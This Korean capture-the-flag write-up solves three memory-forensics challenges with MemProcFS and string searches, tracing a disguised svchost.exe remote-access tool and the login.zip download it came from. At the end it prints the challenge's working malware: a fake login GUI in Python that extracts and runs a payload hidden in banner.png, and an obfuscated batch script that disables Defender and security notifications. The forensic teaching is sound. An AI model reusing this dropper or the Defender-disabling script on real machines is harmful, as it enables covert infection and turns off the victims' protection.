

# memmem 1

## 정답

`BUBU{ma1warE_d3ve1opment_ls_n0t_d1ff1cult}`

## 풀이 과정

현재 실행되고 있는 악성코드를 추출하여 분석하면 플래그를 쉽게 얻을 수 있다.

MemProcFS 또는 volatility를 사용하여 메모리를 분석할 수 있다.

개인적으로 MemProcFS가 편리해서 자주 사용한다.




MemProcFS는 포렌식적으로 유의미한 데이터들을 정리해주는 기능이 존재하여 `forensic` 폴더에 가면 확인할 수 있다.

`net.csv` 파일을 보면 Temp 폴더에 `svchost.exe` 파일이 있음을 확인 가능 - 악성 의심 파일 (PID 6232, 9252)


해당 경로에 가면 파일이 존재하며 파일을 추출하여 뜯어보면 된다. - 닷넷 바이너리이며 <a href="https://github.com/dnSpy/dnSpy">dnSpy</a> 사용


`startup_name`을 사용하는 코드 내부로 들어가면 `schtasks`로 지속성을 위해 재부팅이 되더라도 실행되는 기능이 존재한다.


`schtasks` 명령어를 사용할 때 생성되는 파일이 존재하는지 확인해보자.


MemProcFS가 분석해준 `files` 폴더에서는 보이지 않았지만 디렉토리, 파일 구조를 보여주는 `ntfs` 폴더에서는 확인할 수 있었다. - 데이터는 남아있지 않음

# memmem 2

## 정답

`BUBU{2024-05-08T13:02:42_hyuunnnnn.tistory.com/2_login_start.bat}`

`BUBU{2024-05-08T13:02:42_https://hyuunnnnn.tistory.com/2_login_start.bat}`

## 풀이 과정

MemProcFS에서 분석해준 web 결과를 확인해보자.


데이터가 많이 없다. 데이터가 남아있지 않거나, MemProcFS에서 파싱해주지 못한 것 같다.

메모리를 디스크 분석하듯이 데이터들을 추출하고, 복구하여 데이터들을 뽑아내야 한다.


MemProcFS로 추출한 파일을 열어보면 도구가 인식하지 않는다. recover 도구를 사용해보자. - <a href="https://github.com/alitrack/undark">undark</a>


history 데이터를 보면 잠겨있는 tistory 블로그와 여기에서 `login.zip` 파일을 다운로드 받은 것을 확인 가능


MemProcFS의 `ntfs` 폴더에서도 확인할 수 있다. - 위에서 말했듯이 파일 존재 유무만 확인할 수 있다. (의미 없는 데이터로 채워져 있음)

`strings history.txt |grep -E "[http://|https](http://%7Chttps)://"` 으로 1번 더 필터링하면 좀 더 직관적으로 확인 가능


자동화 도구 관련 검색 기록과 `talk.saramingig.co.kr`라는 사이트도 보인다. - 해당 사이트를 사용하여 대화를 주고 받았음을 유추할 수 있다.

아마도 위 페이지를 통해서 `hyuunnnnn.tistory.com` 주소를 얻어낸 것 같다. - 비밀번호를 알아내야 하는데, `talk.saramingig.co.kr`를 통해서 대화한 내역은 메모리에 존재하지 않았다.


~~비밀번호를 사용했다는 것은 메모리에 남기 때문에 실제 비밀번호를 검색하니까 나오긴 한다.~~

~~이런건 실제 테스트를 통해서 어떻게 메모리에 남는지 확인하고 비슷한 형식으로 검색을 시도해야 한다. (4odu0mzg) → 문제 풀이에 여기까지 할 필요는 없다.~~

다운로드 받은 사이트는 `hyuunnnnn.tistory.com/2`인데, 다운로드 받은 시간을 어떻게 알아낼지가 문제임

MemProcFS에서 ntfs 관련 분석까지 csv 파일로 추출해서 보여줌


최초로 다운로드를 시도한 시간은 `2024-05-08 04:02:42`에 9시간을 더한 `13:02:42` - 다운로드 버튼을 누르면서 파일이 생성되기 때문이다. (`Zone.Identifier` 파일 생성 기록과 `login.zip` 파일의 Action이 `CRE`인 것을 확인하여 다운로드한 파일임을 알 수 있다.)

다운로드를 완료 추정 시간은 `13:02:47` → 아무튼 다운로드 시작 시간은 `13:02:42`


`13:02:53`에 압축 풀린 것으로 보인다. → `$_ORPHAN\$15`에 핵심 파일들이 보인다 → 해당 파일명들을 중점적으로 보자.


`tasks.csv` 파일을 보면 task 생성 시간은 `2024-05-08 13:05:53` → 해당 시간보다 이전에 실행된 내역들을 확인하면 된다. 악성코드가 실행되고 나서 지속성을 위해 등록하기 때문이다.

`timeline_all.csv`를 보면 MemProcFS가 분석한 결과들을 타임라인으로 확인 가능 → 핵심 파일이 떨궈지는 `AppData\Local\Temp`로 Text에 필터 적용


python 관련 로그 시간과 최초로 temp 폴더에 보인 `svchost.exe` 시간이 매우 유사함 → python 스크립트와 연관되어 감염됨을 유추 가능


조금 위로 올려보면 압축 풀린 시간인 `13:02:53`과 task 생성 시간인 `13:05:53` 사이에 최초로 실행된 기록들이 존재할 것이다.

위 로그를 보면 `login_start.bat` 이후에 task 생성 프로그램인 `schtasks.exe`의 프리패치 파일 생성(`CRE`) 기록이 있고 (실행 되었다는 증거), defender와 관련된 로그, `reg.exe`가 실행되는게 매우 수상하다고 볼 수 있다.

이렇게 동작하고 나서 위에서 설명했듯이 `svchost.exe` 악성 파일을 드랍 및 실행된다.

# memmem 3

## 정답

`BUBU{Rem0te_aCCEss_T00l_RATATAtat}`

## 풀이 과정

MemProcFS를 사용하면 volatility 보다 빠르게 메모리 분석을 수행할 수 있다.

memmem 1 풀이 중에 PID 6232, 9252인 `svchost.exe`라는 파일이 수상해 보인다. `svchost.exe`는 실제로 악성코드가 숨기 위해서 자주 사용하는 파일명인데 파일이 존재하는 경로가 일반적이지 않다.

메모리 덤프를 떴기 때문에 문제에서 요구하는 채팅 내역이 메모리에 존재하는지 확인해보자.

name 폴더에 가면 `프로세스명-PID` 형식으로 정리되어 있으며, minidump 폴더에 들어가서 추출하자.


프로그램 파일명인 `svchost`, 채팅 프로그램으로 보이는 `ChatForm`이라는 문자가 보이는데, 채팅 내역은 딱히 보이지 않는다.


 `-e l` 옵션을 주면 16bit utf-16 데이터들을 추출할 수 있다. `strings` 명령어를 사용했을 때 별다른 수확이 없다면 utf-16 데이터들도 찾아보자.


채팅 내역으로 보이는 문자들이 보인다. `Admin:`, `You:`로 필터링해서 해당 문자들을 중점적으로 확인해보자. → 채팅 내역이 생각보다 많이 보이지 않는다. `strings` 명령어에서 한글을 추출하지 못했기 때문이다.


메모리에 존재하는 문자 중 일부를 열어보면 한글임을 알 수 있다.


아무튼 플래그는 영어이기 때문에 `strings minidump-6232-ut.txt |grep -E 'Admin:|You:'` 으로 필터링하면 플래그를 확인할 수 있다.


다음 사진은 실제로 보냈던 채팅 내역이다.

## 문제에서 사용된 파일, 도구 정리

<a href="https://github.com/moom825/xeno-rat">xeno-rat</a> - RAT 도구


<a href="https://github.com/TairikuOokami/Windows/blob/main/Microsoft Defender Disable.bat">Microsoft Defender Disable.bat</a>

<a href="https://github.com/guillaC/BatchObfuscator">BatchObfuscator</a> - bat 파일 난독화 (Custom substrings encoding 기능 사용)

<a href="https://github.com/dashingsoft/pyarmor">pyarmor</a> - python 스크립트 암호화

<a href="https://github.com/SeleniumHQ/selenium">selenium</a>, <a href="https://github.com/TomSchimansky/CustomTkinter">CustomTkinter</a> - 정상 프로그램으로 위장하기 위해 사용한 라이브러리

```python
# login.py
import customtkinter as ctk
from tkinter import messagebox
import lzma
import subprocess
import os
from selenium import webdriver
import random
import time

class CustomLogin:
    def __init__(self):
        ctk.set_appearance_mode("dark")
        self.root = ctk.CTk()
        self.root.title("Login")

        self.username_label = ctk.CTkLabel(self.root, text="ID (Email)")
        self.username_label.grid(row=0, column=0, pady=10, padx=10)
        self.username_entry = ctk.CTkEntry(self.root, width=200)
        self.username_entry.grid(row=0, column=1, pady=10, padx=10)

        self.password_label = ctk.CTkLabel(self.root, text="Password")
        self.password_label.grid(row=1, column=0, pady=10, padx=10)
        self.password_entry = ctk.CTkEntry(self.root, show="*", width=200)
        self.password_entry.grid(row=1, column=1, pady=10, padx=10)

        self.login_button = ctk.CTkButton(
            self.root, text="Login", command=self.login, width=300
        )
        self.login_button.grid(row=2, column=0, columnspan=2, pady=10, padx=10)
        self.exit_button = ctk.CTkButton(
            self.root, text="Exit", command=self.exit, width=300
        )
        self.exit_button.grid(row=3, column=0, columnspan=2, pady=10, padx=10)

    def login(self):
        if random.random() > 0.2:
            messagebox.showerror("Login Failed", "The username or password is incorrect.")
        else:
            driver.get("https://www.naver.com")
            time.sleep(2)
            driver.get("https://www.daum.net")
            time.sleep(2)
            driver.get("https://www.google.com")

    def exit(self):
        self.root.destroy()

    def run(self):
        self.root.mainloop()

def hh():
    try:
        tmp_path = os.path.join(os.getenv("TEMP"), "svchost.exe")

        sig = bytes([0xFD, 0x37, 0x7A, 0x58, 0x5A])
        img = open("banner.png", "rb").read()
        result = img[img.index(sig):]

        open(tmp_path,"wb").write(lzma.decompress(result))
        subprocess.Popen(tmp_path, shell=True)
    except:
        pass

if __name__ == "__main__":
    hh()

    driver = webdriver.Chrome()

    login = CustomLogin()
    login.run()
```

```bat
REM login_start.bat
@echo off

SET 维色豆克埃维饿维克爱=pLUMNKicdletPgJuTXqzjDWkBFfRHCvbAYQyhZwIrnVGamEoSsxO
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1% %维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~35,1% %维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~4,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~49,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~4,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~49,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1% %维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~35,1% %维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~4,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~49,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~4,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~49,1% " /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Notifications\Settings\Windows.SystemToast.SecurityAndMaintenance" /v "Enabled" /t REG_DWORD /d "0" /f >nul 2>&1
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~32,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~25,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~30,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~0,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "0" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~8,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~32,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~35,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%" /%维色豆克埃维饿维克爱:~11,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~43,1%_%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~51,1%%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~21,1% /%维色豆克埃维饿维克爱:~8,1% "1" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
